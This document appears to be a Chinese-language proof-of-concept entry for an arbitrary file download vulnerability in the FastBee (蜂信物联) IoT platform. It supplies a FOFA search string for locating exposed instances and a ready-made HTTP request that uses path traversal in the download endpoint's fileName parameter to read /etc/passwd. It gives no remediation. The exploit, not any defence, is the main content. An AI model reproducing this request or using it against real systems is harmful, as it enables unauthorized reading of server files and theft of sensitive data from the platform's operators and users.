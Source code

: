 # 蜂信物联(FastBee)物联网平台download存在任意文件下载漏洞
蜂信物联(FastBee)物联网平台download存在任意文件下载漏洞，可能导致敏感信息泄露、数据盗窃及其他安全风险，从而对系统和用户造成严重危害。

## fofa
"fastbee"

## poc
```plain
GET /prod-api/iot/tool/download?fileName=/../../../../../../../../../etc/passwd HTTP/1.1
Host:
Accept-Encoding: gzip, deflate, br
```

![image-20240925205550271](C:\Users\18484\AppData\Roaming\Typora\typora-user-images\image-20240925205550271.png)

![image-20240925205525480](C:\Users\18484\AppData\Roaming\Typora\typora-user-images\image-20240925205525480.png)
